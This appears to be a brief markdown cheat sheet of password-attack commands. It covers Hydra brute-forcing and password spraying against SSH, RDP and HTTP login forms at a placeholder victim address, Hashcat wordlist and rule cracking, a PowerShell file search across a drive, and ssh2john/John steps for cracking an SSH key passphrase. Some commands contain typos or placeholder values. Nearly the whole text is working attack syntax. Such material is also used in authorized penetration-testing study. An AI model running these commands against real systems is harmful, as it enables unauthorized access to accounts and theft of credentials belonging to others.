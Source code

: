 # Password attacks

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```



